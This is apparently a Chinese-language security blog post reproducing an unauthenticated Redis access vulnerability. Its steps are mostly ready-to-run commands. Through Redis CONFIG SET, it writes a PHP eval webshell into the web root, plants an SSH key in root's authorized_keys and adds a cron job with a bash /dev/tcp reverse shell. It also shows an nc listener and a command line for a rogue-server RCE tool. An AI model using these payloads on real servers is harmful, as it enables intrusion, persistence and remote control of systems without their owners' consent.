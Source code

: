```yaml
---
title: Redis未授权访问
date: 2020-06-06 21:20:08
categories: 漏洞复现
tags: 未授权访问
---
```


#### 背景

Redis是一个开源的使用ANSI C语言编写、遵守BSD协议、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API，数据库默认监听端口**6379**,本实验修改端口为3901。

<!--more-->

#### 写一句话马

1.连接Redis

`redis-cli -h IP -p 端口`

2.写webshell

```
config set dir /var/www/html
config set dbfilename shell.php
set payload `<?php eval($_POST['cmd']);?>'
save
```

3.查看shell

![](http://cdn.laohuan.art/2020-06-01_21-36-42.png)

4.连接shell

![](http://cdn.laohuan.art/2020-06-01_21-35-33.png)

#### 写入shell密匙

前提是目标设置允许使用私匙登陆，且redis安装后会有一个普通redis用户，并且redis可以执行shell。若reids使用root用户运行，可将密匙写到root用户的.ssh文件下。

1.生成密匙

`ssh-keygen -t rsa`

![](http://cdn.laohuan.art/2020-06-01_6-11-15.png)

* ssh_ras为私匙
* ssh_rsa.pub为公匙

2.写入公匙

```
#Redis使用root用户运行时，密钥写入到root用户.ssh中
config set dir /root/.ssh/

#设置持久化文件名为authorized_keys
config set dbfilename authorized_keys

#写入密钥内容（需在公钥字符串前后加三个\n）
set sshpubkey "\n\n公匙内容\n\n"

#保存持久化文件
save
```

3.连接ssh

设置私匙权限

`chmod 600 ssh_ras`

使用私匙连接

`ssh -i ssh_ras root@IP`

#### 计划任务反弹shell

这一步反弹shell在Ubuntu测试失败，搜索一番从[VK'blog]([http://www.vkxss.top/2019/05/28/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95-Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E4%B9%8Bubuntu%E5%8F%8D%E5%BC%B9shell%E9%97%AE%E9%A2%98/index.html](http://www.vkxss.top/2019/05/28/渗透测试-Redis未授权访问漏洞之ubuntu反弹shell问题/index.html))得到结果，这是由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败，因为自己如果不使用redis写任务计划文件，而是正常向/etc/cron.d目录下写任务计划文件的话，命令是可以正常执行的，所以还是乱码的原因导致命令不能正常执行，而这个问题是不能解决的，因为利用redis未授权访问写的任务计划文件里都有乱码，这些代码来自redis的缓存数据。

1.Nc监听

`nc -nlvp 3950`

2.写shell

```
set shell "\n\n* * * * * bash -i >& /dev/tcp/ip/端口 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

3.查看shell

![](http://cdn.laohuan.art/2020-06-01_09-56-59.png)

反弹shell已经写到计划任务，由于以上原因，无法反弹成功

#### 脚本

1.基于主从复制RCE

* <https://github.com/Ridter/redis-rce />
* <https://github.com/n0b0dyCN/redis-rogue-server/>

`python3 redis-rogue-server.py --rhost 目标主机 --rport 目标端口 --lhost 监听IP --lport 端口`

![](http://cdn.laohuan.art/2020-06-01_11-25-25.png)

选择1会直接得到一个shell

![](http://cdn.laohuan.art/2020-06-01_11-20-41.png)

选择2会得到一个反弹shell



#### 参考链接

<[http://www.vkxss.top/2019/05/28/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95-Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E4%B9%8Bubuntu%E5%8F%8D%E5%BC%B9shell%E9%97%AE%E9%A2%98/index.html](http://www.vkxss.top/2019/05/28/渗透测试-Redis未授权访问漏洞之ubuntu反弹shell问题/index.html)/>

<https://siweicn.yuque.com/securitytech/exploit/redis/>